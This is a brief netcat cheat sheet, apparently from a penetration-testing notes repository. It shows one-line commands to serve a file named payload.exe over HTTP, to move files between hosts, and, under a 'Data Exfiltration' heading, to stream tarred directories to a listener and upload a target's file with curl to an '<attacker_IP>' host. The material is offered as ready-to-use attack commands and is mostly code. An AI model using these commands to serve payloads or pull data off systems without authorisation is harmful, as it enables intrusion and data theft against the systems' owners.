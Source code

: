 # Netcat

## 01 - Simple Web Server

```
$ { echo -ne "HTTP/1.1 200 OK\r\n\r\n"; cat payload.exe; } | nc -lp <PORT> -q 1

$ printf 'HTTP/1.1 200 OK\n\n%s' "$(cat payload.exe)" | nc -lp <PORT> -q 1
```

Run the web server infinitely.

```
$ while true; do { echo -ne "HTTP/1.1 200 OK\r\n\r\n"; cat payload.exe; } | nc -lp <PORT> -q 1; done

$ while true; do printf 'HTTP/1.1 200 OK\n\n%s' "$(cat index.html)" | nc -lp <PORT> -q 1; done
```

## 02 - Transfer Files

Sender

```
$ nc -nvv <IP> 1024 -w 10 < file.txt
```

Receiver

```
$ nc -lnvp 1024 -w 10 > file.txt
```

Even in vice versa just depends how the environment is configured.

## 03 - Data Exfiltration

- Method 1

```
$ nc -l 8080 > directory_data.tar.gz

$ tar cfvz - directory_data | nc -w 15 <IP> 8080 directory_data

$ tar xzf directory_data.tar.gz
```

- Method 2

```
$ nc -l 8080 | tar xzvf -

$ tar czf - directory_data | nc <IP> 8080
```

### 3.1 - HTTP Server

```
$ nc -lnvp 4040 | tee file.txt
```

### 3.2 - Target

```
$ curl -T file.txt http://<attacker_IP>:4040
```